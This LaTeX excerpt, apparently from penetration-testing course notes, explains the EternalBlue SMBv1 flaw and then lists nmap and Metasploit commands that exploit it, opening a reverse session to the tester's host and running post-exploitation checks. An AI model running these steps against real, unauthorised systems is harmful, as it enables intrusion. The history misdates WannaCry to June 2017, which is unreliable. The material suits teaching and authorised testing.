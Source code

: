 \begin{notebox}
\subsection{What EternalBlue Is}

EternalBlue (MS17-010 / CVE-2017-0144) is a collection of Windows vulnerabilities
that allow attackers to remotely execute arbitrary code without authentication by
sending specially crafted packets to the SMBv1 service.

\textbf{History:}
\begin{itemize}
  \item Developed by the NSA as an offensive cyberweapon
  \item Leaked to the public by the Shadow Brokers hacker group in 2017
  \item Used in the \textbf{WannaCry ransomware attack} (June 2017), spreading
        across networks globally in hours
  \item Patched by Microsoft in MS17-010, but unpatched systems remain common
\end{itemize}

\textbf{Affected systems:}
\begin{itemize}
  \item Windows Vista, 7, 8.1
  \item Windows Server 2008, 2012, 2016
  \item Windows 10 (pre-patch)
\end{itemize}

\subsection{EternalBlue Attack Flow}

\begin{termbox}
# Step 1 --- confirm SMBv1 and check vulnerability
sudo nmap -sV -p 445 -O target_ip
sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 target_ip
# Look for: VULNERABLE in output

# Step 2 --- Metasploit EternalBlue
service postgresql start && msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOST target_ip
set LHOST my_ip
set LPORT listening_port
run

# Step 3 --- post-exploitation
sysinfo
getuid
\end{termbox}



\end{notebox}
